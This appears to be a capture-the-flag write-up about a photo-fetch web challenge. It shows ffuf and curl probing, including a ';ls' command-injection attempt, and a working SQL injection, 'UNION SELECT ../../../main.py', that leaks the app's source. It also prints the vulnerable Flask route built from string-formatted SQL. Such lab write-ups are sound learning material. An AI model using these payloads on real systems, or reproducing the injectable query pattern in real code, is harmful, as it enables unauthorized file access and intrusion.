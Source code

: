 ```
id                      [Status: 200, Size: 97806, Words: 322, Lines: 379, Duration: 122ms]
true                    [Status: 200, Size: 97806, Words: 322, Lines: 379, Duration: 136ms]
```

Why do `id` and `true` work? Another `ffuf` run shows that `parent`, `ID`, and `Id` also work. 

These all return the same photo that `id=1` returns. 

So, for our theoretical SQL query, we're not casting to int. 

`"SELECT image FROM images WHERE id = " + input`

`curl "$BASE_URL/fetch?id=1%20--"`

This is interesting --

```bash
% curl "$BASE_URL/fetch?id=1--"
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
% curl "$BASE_URL/fetch?id=1++"
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
```

So are we just like using bash eval or something? 

Possibly - it looks like we can delimit stuff with a semicolon:

```
% curl "$BASE_URL/fetch?id=1;ls" 
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
```

`"SELECT image FROM images WHERE filename = " + $(ls input + '*')`

`% curl "$BASE_URL/fetch?id=3||3" -o jpg.jpg ` this also works to get image id 1

I have no idea what's going on here. The hints suggest using a union, and that we're using
the uwsgi-nginx-flask-docker Docker image. 

`curl "${BASE_URL}/fetch?id=11%20UNION%20SELECT%20'../../../main.py'"`

This gets us there, and gets a flag. Honestly, I had to look this up. I don't really understand
why this works. But, it gets us the source code, so we can take a look at that to understand:

```
@app.route('/fetch')
def fetch():
	cur = getDb().cursor()
	if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0:
		abort(404)

	return file('./%s' % cur.fetchone()[0].replace('..', ''), 'rb').read()
```

